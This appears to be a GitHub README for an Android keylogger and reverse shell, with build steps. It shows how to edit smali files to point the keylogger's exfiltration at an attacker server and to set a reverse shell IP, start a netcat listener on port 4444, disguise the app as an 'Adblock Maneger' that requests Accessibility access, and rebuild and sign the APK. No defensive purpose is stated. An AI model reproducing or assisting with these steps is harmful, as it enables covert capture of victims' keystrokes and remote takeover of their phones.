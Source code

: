 # Keylogger + Reverse Shell 
## Made By : Ghosthub 

### Makeing web based Android Keylogger & Android Reverse Shell with netcat configuration. 
 
### Installation & Requirements
```
sudo apt install netcat
sudo apt install golang
sudo apt install apktool
sudo apt install dex2jar 


[+] Makeing Client Application
[+] For Keylogger Changes ==> com/bshu2/androidkeylogger/keylogger$SendToServerTask.smali ~
Line No 105 ~ add server connection link "http://127.0.0.1:8080"

 
[+]For Keylogger Connection ==> go run server.go  run this Command in Terminal ~ Turn on android Accessibility
options (Adblock Maneger) ~ Go to browser & Search 127.0.0.1:8080


[+] For Reverse Shell Connection ==> com/bshu2/androidkeylogger/Mainactivity.smali ~ Line No 367 ~
Add Shell IP (ifconfig) ==> In Terminal Run nc -lvp 4444

apktool b Adblock -o Output.apk
d2j-apk-sign [ options ] <apk>

```
